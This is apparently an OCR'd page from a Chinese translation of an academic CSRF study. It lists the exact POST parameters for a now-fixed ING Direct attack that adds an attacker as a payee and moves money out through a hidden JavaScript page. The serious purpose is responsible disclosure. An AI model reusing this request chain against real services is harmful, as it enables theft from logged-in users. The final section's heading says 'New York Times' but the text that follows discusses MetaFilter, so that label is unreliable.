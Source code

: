 <font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html 带有以下参数：</font>

```
command=validateModifyPersonalPayee &from=displayEmailMoney&PayeeName =[PAYEE NAME]&PayeeNickname=&chk Email=on&PayeeEmail=[PAYEE EMAIL] &PayeeIsEmailToOrange=true&Payee OrangeAccount=[PAYEE ACCOUNT NUM]& YES, I WANT TO CONTINUE..x=44
&YES, I WANT TO CONTINUE..y=25

…其中[PAYEE NAME]是攻击者的名字，[PAYEE EMAIL]是攻击者的电子邮件地址，[PAYEE ACCOUNT NUM]是攻击者的ING帐号。
```
<br>
<font size=3>&emsp;&emsp;&emsp;（c）攻击者使用户浏览器确认攻击者是有效的收款人账户：</font>
<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求给 https://secure.
ingdirect.com/myaccount/ INGDirect.html 带着以下参数:</font>

```
command=modifyPersonalPayee&from=
displayEmailMoney&YES, I WANT TO
CONTINUE..x=44 &YES, I WANT TO
CONTINUE..y=25

```
<br>
<font size=3>&emsp;&emsp;3.攻击者从用户账户转移资金到自己的账户。</font>
<br>
<font size=3>&emsp;&emsp;&emsp;（a）攻击者使用户的浏览器输入一定数量的钱发送给攻击者：</font>

<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求发送到 https://secure. ingdirect.com/myaccount/ INGDirect.html带有以下参数:</font>

```
command=validateEmailMoney&CNSPayID =5000&Amount=[TRANSFER AMOUNT] &Comments=[TRANSFER MESSAGE]&YES,
I WANT TO CONTINUE..x=44 &YES, I WANT TO CONTINUE..y=25&show=1&button=Send Money

...其中[TRANSFER AMOUNT]是从用户帐户转移到攻击者帐户的金额，[TRANSFER MESSAGE]是要包含在交易中的消息。
```
<br>
<font size=3>&emsp;&emsp;&emsp;（b）攻击者使用户浏览器确认钱确实被转移到自己账户：</font>
<font size=2>&emsp;&emsp;&emsp;&emsp;
• 一个POST请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html带有以下参数：</font>

```
command=emailMoney&Amount= [TRANSFER AMOUNT]Comments= [TRANSFER MESSAGE]&YES, I WANT TO CONTINUE..x=44&YES, I WANT TO CONTINUE..y=25

… 其中[TRANSFER AMOUNT]和[TRANSFER MESSAGE]的值与上面的3（a）相同。
```
<br>
<font size=3>&emsp;&emsp;&emsp;要利用此攻击，攻击者将创建一个页面，使用JavaScript连续发出上述POST请求。 这对用户来说是不可见的。</font>
<br>
<font size=3>&emsp;&emsp;&emsp;这种攻击假设用户还未他的ING Direct支票账户添加额外的收款人。如果没有这种限制，攻击很有可能已经被修改。</font>
<br>
<font size=3>&emsp;&emsp;&emsp;我们在Firefox 2.0.0.3和Internet Explorer 7.0.5试验了这种攻击。我们没有在其他浏览器测试这种攻击。我们告知了ING这种漏洞并且这种漏洞已经被修复。</font>
<br>
<br>
<font size=4><b>3.3&emsp;纽约时报</b></font>
<br>
<center><font size=2> 
“MetaFilter是一个博客…… 任何人都可以为添加链接或评论。"它目前每月有超过50,000名用户和350多万独立访问者[1]</font> 。</center>
<br>
<font size=3>&emsp;&emsp;我们在MetaFilter中发现了一个允许攻击者控制用户的帐户的CSRF漏洞。</font>
<br>